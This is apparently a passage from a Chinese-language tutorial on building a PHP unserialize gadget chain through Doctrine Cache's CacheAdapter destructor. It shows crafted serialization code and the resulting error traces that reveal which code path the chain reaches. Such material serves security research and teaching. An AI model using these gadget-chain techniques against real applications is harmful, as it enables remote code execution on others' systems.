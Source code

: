 输出结果：

```plain
$ php unserialize.php 

Fatal error: Uncaught Error: Call to a member function save() on null in /tmp/vendor/doctrine/cache/lib/Doctrine/Common/Cache/Psr6/CacheAdapter.php:235
Stack trace:
#0 /tmp/vendor/doctrine/cache/lib/Doctrine/Common/Cache/Psr6/CacheAdapter.php(248): Doctrine\Common\Cache\Psr6\CacheAdapter->commit()
#1 /tmp/unserialize.php(4): Doctrine\Common\Cache\Psr6\CacheAdapter->__destruct()
#2 {main}
  thrown in /tmp/vendor/doctrine/cache/lib/Doctrine/Common/Cache/Psr6/CacheAdapter.php on line 235
```

相反的，如果当前 timestamp 大于 `deferredItem` `expiry` ，则到达 `delete` 方法。

```plain
<?php

namespace Doctrine\Common\Cache\Psr6
{
    class CacheAdapter
    {
        public $deferredItems = true;
    }
    class TypedCacheItem
    {
        public $expiry = 1;
        public $value = "test";
    }

}

namespace PopChain
{

use Doctrine\Common\Cache\Psr6\CacheAdapter;
use Doctrine\Common\Cache\Psr6\TypedCacheItem;

$obj = new CacheAdapter();

$obj->deferredItems = [new TypedCacheItem()];
echo serialize($obj);
}
```

输出结果：

```plain
$ php unserialize.php 

Fatal error: Uncaught Error: Call to a member function delete() on null in /tmp/vendor/doctrine/cache/lib/Doctrine/Common/Cache/Psr6/CacheAdapter.php:227
Stack trace:
#0 /tmp/vendor/doctrine/cache/lib/Doctrine/Common/Cache/Psr6/CacheAdapter.php(248): Doctrine\Common\Cache\Psr6\CacheAdapter->commit()
#1 /tmp/unserialize.php(4): Doctrine\Common\Cache\Psr6\CacheAdapter->__destruct()
#2 {main}
  thrown in /tmp/vendor/doctrine/cache/lib/Doctrine/Common/Cache/Psr6/CacheAdapter.php on line 227
```
